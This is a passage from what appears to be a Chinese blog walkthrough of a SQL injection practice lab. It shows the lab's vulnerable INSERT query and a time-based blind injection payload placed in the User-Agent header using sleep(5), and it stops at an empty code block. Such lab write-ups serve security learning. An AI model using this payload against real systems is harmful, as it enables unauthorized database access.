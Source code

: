 ![11](/img/2018-08-03/11.png)
一般这种注入的sql语句都是insert类型，查看index.php的查询关键代码
```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```
因为这种方式注入没有回显，一般是基于时间的insert型盲注，通过判断返回时间来注入
*user-agent简写成Mozilla/5.0 Firefox/56.0*
```
User-Agent: Mozilla/5.0 Firefox/56.0' or sleep(5) or '
```
最后要闭合单引号，不可以注释掉（我也不知道原因π_π）
5秒后返回正常页面
![12](/img/2018-08-03/12.png)
猜测数据库
```
```